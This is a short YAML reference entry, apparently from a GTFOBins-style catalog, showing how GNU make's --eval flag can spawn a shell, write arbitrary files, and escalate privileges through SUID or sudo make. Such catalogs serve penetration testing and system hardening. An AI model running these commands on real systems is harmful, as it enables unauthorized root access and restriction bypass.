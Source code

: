 ```yaml
---
description: All these examples only work with GNU `make` due to the lack of support of the `--eval` flag. The same can be achieved by using a proper `Makefile` or by passing the content via stdin using `-f -`.
functions:
  shell:
    - code: |
        COMMAND='/bin/sh'
        make -s --eval=$'x:\n\t-'"$COMMAND"
  file-write:
    - description: Requires a newer GNU `make` version.
      code: |
        LFILE=file_to_write
        make -s --eval="\$(file >$LFILE,DATA)" .
  suid:
    - code: |
        COMMAND='/bin/sh -p'
        ./make -s --eval=$'x:\n\t-'"$COMMAND"
  sudo:
    - code: |
        COMMAND='/bin/sh'
        sudo make -s --eval=$'x:\n\t-'"$COMMAND"
---
```

